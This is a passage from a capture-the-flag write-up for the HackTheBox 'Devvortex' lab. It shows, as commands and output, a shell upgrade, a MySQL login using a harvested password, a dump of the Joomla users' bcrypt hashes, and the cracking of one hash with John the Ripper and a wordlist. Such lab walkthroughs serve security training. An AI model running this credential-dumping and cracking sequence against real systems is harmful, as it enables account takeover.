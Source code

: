 # User as logan

## mysql

logan is the only user with a home directory so I'll first look for a shell as him. In the enumeration stage we found the mysql database being used here is joomla, let's dump the contents as lewis.


```bash
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$ python3 -c "import pty;pty.spawn('/bin/bash')"
<tum$ python3 -c "import pty;pty.spawn('/bin/bash')"                 
www-data@devvortex:~/dev.devvortex.htb/administrator/templates/atum$ mysql -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##
< -u lewis -p joomla --password=P4ntherg0t1n5r3c0n##                 
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8220
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> select username,password from sd4fg_users
select username,password from sd4fg_users
    -> ;
;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

## john

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Devvortex]
└──╼ $john hash --wordlist=/opt/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (?)
1g 0:00:00:07 DONE (2023-12-02 12:33) 0.1310g/s 184.0p/s 184.0c/s 184.0C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
